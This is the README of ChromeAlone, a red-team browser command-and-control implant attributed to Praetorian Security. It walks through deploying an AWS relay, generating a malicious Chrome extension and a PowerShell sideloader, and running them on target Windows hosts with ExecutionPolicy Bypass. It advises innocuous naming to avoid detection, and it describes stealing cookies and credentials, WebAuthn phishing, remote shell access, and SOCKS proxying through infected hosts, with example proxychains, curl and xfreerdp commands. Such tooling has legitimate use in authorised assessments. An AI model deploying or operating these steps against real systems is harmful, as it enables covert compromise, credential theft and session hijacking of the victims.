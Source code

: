 # ChromeAlone - A Browser C2 Framework

![Architecture Diagram](BATTLEPLAN.png)

# What does this get me?
ChromeAlone is a browser implant that can be used in place of conventional implants like Cobalt Strike or Meterpreter. This repo provides a simple build process that will generate a management console, deploy infrastructure, and create a powershell sideloader script to run on targets. 

After installation, each ChromeAlone implant will provide mechanisms for:

* Providing a SOCKS TCP Proxy on the host
* Browser session stealing and credential capture
* Launching executables on the host from Chrome
* Phishing for WebAuthn requests for physical security tokens like YubiKeys or Titan Security Keys.
* An EDR resistant form of persistence on host that is implemented entirely with Chromium's built-in features.

# Build Instructions

First build the docker container: `docker build -t chromealone .`

## Deployment Instructions

There are currently two supported deployment modes:

### Deployment from scratch via AWS

For this you'll need to have an AWS account configured with your credentials stored in `~/.aws/credentials`. Make sure your account has full EC2 write permissions along with Route53 permissions. Additionally it's assumed that your Route53 has been configured with at least 1 hosting zone containing a registered domain. If these conditions are met, then you can run:

```
docker run --rm -v $(pwd):/project -v ~/.aws:/root/.aws chromealone --domain=sendmea.click --appname=UpdateService
```

The `domain` value should match a domain under the control of your Route53 setup. `appname` can be whatever value you want, and will be used for naming several registry keys and folders on disk when deploying. It is recommended to use a fairly benign name like `UpdateService` or something equally innocuous.

This will deploy the BATTLEPLAN relay server to AWS and generate the following artifacts:

`output/client` - The control webapp to manage your ChromeAlone installs.

`output/sideloader.ps1` - The installation script to run on targets to infect their local browser instance. NOTE: There will also be an `iwa-sideloader.ps1` file for loading ONLY the Isolated Web App, and 
`extension-sideloader.ps1` for loading ONLY the browser extension.

`output/extension` - The generated malicious browser extension.

`output/iwa` - The generated malicious Isolated Web App signed webapp bundle file.

`output/relay-deployment` - Terraform artifacts from your AWS deployment including an SSH key for directly accessing the host.

### Generate Deployment scripts from an existing server deployment

If you've already deployed an instance, `output/relay-deployment/terraform.tfvars` will contain all the information necessary to generate new sideloader scripts + malicious extensions. You can point the ChromeAlone docker file at the `tfvars` file and it will skip the deployment step while maintaining the appropriate metadata to handle connections.

Run the build script `docker run --rm -v $(pwd):/project -v ~/.aws:/root/.aws chromealone --tfvars=/project/path/to/terraform.tfvars --appname=UpdateService` and it will generate a new malicious sideloader for your deployment.

## Installing on Hosts

Take `sideloader.ps1` and execute it on your target Windows 10 or Windows 11 machine by running `powershell.exe ExecutionPolicy Bypass -File .\path\to\sideloader.ps1`. Note that you can run with additional flags if you would like to install a NativeMessaging host (required for shelling out) or force chrome to restart (necessary if you want your extension to run immediately after running this script versus waiting for the next time the user opens Chrome). An example invocation with both of these flags is `powershell.exe -ExecutionPolicy Bypass .\sideloader.ps1 -InstallNativeMessagingHost $true -ForceRestart $true`. You can also modify the defaults at the top of the script from `false` to `true` if you wish these flags to automatically be used.

A complete script execution will take roughly 20-30 seconds.

# Operator Instructions

Once ChromeAlone is loaded, you can view any connected hosts by opening `output/client/index.html`. This webapp will be pre-configured to connect back to your deployed BATTLEPLAN relay instance. Note that by default, the relay is firewalled to only allow incoming control access on ports 1080-1181 from the IP that deployed the server. If you wish to modify this, you'll need to update the EC2 instance's network settings to include any additional machines.

Most commands can be run from the WebUI including:

* Dumping history + cookies (via the `Quick Commands` section, which requires selecting a target agent in the `Execute Command` section)
* Capturing Credentials (these will appear via the `Captured Data` tab)
* Forcing WebAuthn requests (via the `Execute Command` section)
* File System reads (via the `File Browser` tab)
* Executing Shell commands (via the `Interactive Shell` tab)

The primary exception to this is SOCKS proxying. Each infected host is assigned a unique SOCKS port for the server that can be seen under the `Agent Information` section, where each agent has a `Port` field. The assigned port, when combined with the `admin` credentials stored in `output/client/config.js` can be used to configure a host specific SOCKS proxy.

For example, say we have an agent where the port is 1081, our domain is `chrome.alone`, our username `admin` (this is always the case), and our password is `thisisnotarealpassword`. Here are some example usages:

```
proxychains -q socks5 admin:thisisnotarealpassword@chrome.alone:1081 curl http://ifconfig.me
xfreerdp /cert:ignore /v:<target RDP host> /u:<target RDP username> /proxy:socks5://admin:thisisnotarealpassword@chrome.alone:1081
curl -x socks5h://chrome.alone:1081 -u "admin:thisisnotarealpassword" http://ifconfig.me
```

# What's in this Repository?

The ChromeAlone repository is broken down into components, many of which could be used individually as part of an assessment - but together represent the entire Chromium browser implant toolchain.

* `BATTLEPLAN` - This is the management server component of the toolchain. It contains terraform scripts for deploying to an AWS environment as well as an HTML client for interacting with the server post deployment.
* `BLOWTORCH` - This is a malicious Isolated Web Application which uses `Direct Socket` permissions to implement a SOCKS TCP proxy and websocket server to enable communications between other chrome components. It also acts as the messaging bridge back to the `BATTLEPLAN` relay server.
* `DOORKNOB` - This is a series of scripts used for generating powershell sideloaders for Isolated Web Apps and Chrome Extensions. The script in `build.sh` provides an example of how to create a single Powershell installer script that combines both of theses individual sideloaders into one.
* `HOTWHEELS` - This is a malicious Chrome extension that implements all of its capabilities in Web Assembly. It provides the vast majority of ChromeAlone's feature sets for credential capture, session hijacking, shelling out, and reading the file system.
* `PAINTBUCKET` - A series of content scripts that enable phishing for WebAuthn requests by hiding additional WebAuthn requests within iFrames in inactive tabs whenever a normal WebAuthn request is made.

# Who made this?

This tool has been written by [Mike Weber](https://www.linkedin.com/in/michael-weber-6a466517/) of Praetorian Security.

# License

ChromeAlone is licensed under the Apache License, Version 2.0.

```
Copyright 2025 Praetorian Security, Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
```
